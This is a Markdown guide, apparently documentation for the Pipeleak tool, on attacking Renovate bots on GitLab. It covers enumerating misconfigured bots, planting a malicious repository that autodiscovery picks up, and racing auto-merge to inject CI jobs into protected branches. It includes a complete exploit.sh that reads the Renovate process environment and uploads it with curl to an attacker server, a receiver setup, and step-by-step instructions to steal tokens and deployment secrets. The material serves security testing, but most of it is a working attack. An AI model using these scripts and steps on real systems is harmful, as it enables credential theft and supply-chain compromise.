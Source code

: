 ```yaml
---
title: Attacking Renovate Bots - A Practical Guide
description: Learn how to discover and exploit common misconfigurations in Renovate bot setups, including autodiscovery exploits and privilege escalation.
keywords:
  - renovate bot security
  - CI/CD security
  - pipeline security
  - privilege escalation
---
```


# Attacking Renovate Bots: A Practical Guide

This guide explains how to use Pipeleak to discover and exploit common misconfigurations in Renovate bot setups. For more background and technical details, see the full [blog post](https://blog.compass-security.com/2025/05/renovate-keeping-your-updates-secure/).

There are two key points to understand:

1. **Code Execution by Renovated Repositories**
> Every project renovated by the same bot must be considered equally trusted and exposed to the same attack level. If one project is compromised, all others processed by that bot can be affected. Code execution by the renovated repository in the bot context is assumed in Renovate's threat model.

2. **GitLab Invite Auto-Acceptance**
> GitLab project invites are auto-accepted. You can invite any bot directly to your repository. If it is then renovated by the invited bot, you can compromise the bot user.


## 1. Enumerate Renovate Bot Usage

Use the `enum` command to scan your GitLab instance for Renovate bot jobs and configuration files. This is useful for:

- Identify Renovate configurations
- Finding projects with vulnerable Renovate bot configurations
- Collecting config files for further analysis

For example, we enumerated Renovate configs found on GitLab.com. One project was found that enables Renovate's autodiscovery of projects and does **not** set any autodiscovery filters.

```bash
pipeleak gl renovate enum -g https://gitlab.com -t glpat-[redacted] --dump
2025-09-30T07:11:06Z INF Fetching projects
2025-09-30T07:11:12Z WRN Identified Renovate (bot) configuration autodiscoveryFilterType= autodiscoveryFilterValue= hasAutodiscovery=true hasAutodiscoveryFilters=false hasConfigFile=true pipelines=enabled selfHostedConfigFile=true url=https://gitlab.com/test-group/renovate-bot
2025-09-30T07:11:16Z INF Fetched all projects
2025-09-30T07:11:16Z INF Done, Bye Bye 🏳️‍🌈🔥
```


This makes the bot susceptible to autodiscovery exploits, since it will renovate any repository it can access.

Even when autodiscovery filters are enabled, weak or poorly written filter regexes can still allow attackers to bypass them and exploit the bot.

---

## 2. Exploit Autodiscovery with a Malicious Project

The Renovate bot from the example above is configured to autodiscover new projects and does not apply any, or only weak, bypassable filters. You can create a repository with a malicious script that gets executed by the bot.

The following command creates a repository that includes an exploit script called `exploit.sh`. Whenever a Renovate bot picks up this repo, the script will be executed.
```bash
pipeleak gl renovate autodiscovery -g https://gitlab.com -t glpat-[redacted] 
2025-09-30T07:19:33Z INF Created project name=devfe-pipeleak-renovate-autodiscovery-poc url=https://gitlab.com/myuser/devfe-pipeleak-renovate-autodiscovery-poc
2025-09-30T07:19:35Z INF Created file file=renovate.json
2025-09-30T07:19:35Z INF Created file file=package.json
2025-09-30T07:19:36Z INF Created file file=package-lock.json
2025-09-30T07:19:37Z INF Created file file=exploit.sh
2025-09-30T07:19:37Z INF No username provided, you must invite the victim Renovate Bot user manually to the created project
2025-09-30T07:19:37Z INF Make sure to update the exploit.sh script with the actual exploit code
2025-09-30T07:19:37Z INF Then wait until the created project is renovated by the invited by the Renovate Bot user
```

First, set up the `exploit.sh` script according to your needs. The goal is to read the Renovate process environment variables and exfiltrate them to your attacker server.

```bash
#!/bin/bash
UPLOAD_URL="https://[attacker-ip]:8080/upload"

if [ -z "$UPLOAD_URL" ]; then
    echo "Upload URL is empty"
    exit 1
fi

# 1. Get renovate PID
RPID=$(ps -eo pid,cmd | grep -i 'renovate' | awk '{print $1}' | head -n 1)
echo "[+] Renovate PID: $RPID"

# 2. Upload /proc/<PID>/environ to GoShs server
ENV_FILE="renovate_environ_${RPID}.txt"
if [ -r "/proc/$RPID/environ" ]; then
    tr '\0' '\n' < /proc/$RPID/environ > "$ENV_FILE"
    echo "[+] Uploading $ENV_FILE to GoShs server..."
    curl -k -sSf -X POST -F "files=@$ENV_FILE" "$UPLOAD_URL"
else
    echo "[-] Cannot read /proc/$RPID/environ"
fi
```

On your attacker server, start a [GoShs](https://github.com/patrickhener/goshs) server to accept the environment files from the Renovate process.
```bash
./goshs --ssl --self-signed --upload-only -no-clipboard --no-delete --port 8000
INFO   [2025-09-30 09:31:29] You are running the newest version (v1.1.1) of goshs
```


Next, identify the bot user and invite it to your repository. By looking at the Renovate bot configuration, you can identify the renovated repos and check the username of the bot user in the merge requests created by that bot.

Such a merge request can look like this. Below the title, you see the bot's username `renovate_runner`.

![Renovate MR](./renovate_mr.png)

Invite that user to your repository with `developer` access. Now, wait until the bot is triggered next. After it has run, you can find the environment file on your GoShs server.

In that file, extract all sensitive environment variables and use them for lateral movement. Most interesting is probably the `RENOVATE_TOKEN`, as it might contain a GitLab PAT. You can then enumerate the access of that PAT using Pipeleak's features.

> After receiving a merge request from the Renovate bot, you must fully delete both the branch and the merge request. This ensures the bot will recreate them, allowing your script to run again. Otherwise, the script will not be executed a second time. Ensure to revert the commits as well if they were merged.


## 3. Privilege Escalation via Renovate Bot Branches

In this scenario, assume you already have access to a repository, but only with developer permissions. You want to gain access to the CI/CD variables configured for deployments. However, you cannot directly access these, as they are only provided to pipeline runs on protected branches like the main branch.

Fortunately, the project is using Renovate and the bot is configured to auto-merge after tests pass in the merge request created by the bot. Thus, the bot has maintainer access to the repository.

Your goal is to abuse the Renovate bot's access level to merge a malicious `gitlab-ci.yml` file into the main branch, effectively bypassing a review by other project maintainers. On the main branch, you can then steal the exposed environment variables used for deployments.

Using Pipeleak, you can monitor your repository for new Renovate branches. When a new one is detected, Pipeleak tries to add a new job into the `gitlab-ci.yml`. As this needs to exploit a race condition (adding new changes to the Renovate branch before the bot activates auto-merge), this might take a few attempts.

```bash
pipeleak gl renovate privesc -g https://gitlab.com -t glpat-[redacted] --repoName company1/a-software-project --renovateBranchesRegex 'renovate/.*' -v
2025-09-30T07:56:57Z DBG Verbose log output enabled
2025-09-30T07:56:57Z INF Ensure the Renovate bot does have a greater access level than you, otherwise this will not work, and is able to auto merge into the protected main branch
2025-09-30T07:56:58Z DBG Testing push access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z DBG Testing merge access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z INF Default branch is protected and you do not have direct access, proceeding with exploit branch=main currentAccessLevel=30
2025-09-30T07:56:58Z INF Monitoring for new Renovate Bot branches to exploit
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:56:58Z DBG Storing original branches for comparison
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z INF Checking if new branch matches Renovate Bot regex branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Identified Renovate Bot branch, starting exploit process branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Fetching .gitlab-ci.yml file from Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Modifying .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:31Z INF Updated remote .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1 fileinfo={"branch":"renovate/update-lib1","file_path":".gitlab-ci.yml"}
2025-09-30T07:57:31Z INF CI/CD configuration updated, check yourself if we won the race! branch=renovate/update-lib1
2025-09-30T07:57:31Z INF If Renovate automatically merges the branch, you have successfully exploited the privilege escalation vulnerability and injected a job into the CI/CD pipeline that runs on the default branch
```

Manually check if the merge request has been set to auto-merge, and see if your changes land in the main branch. If they do, you have successfully injected a CI/CD job into the protected branch. From there, leak all the credentials and continue your attack path.
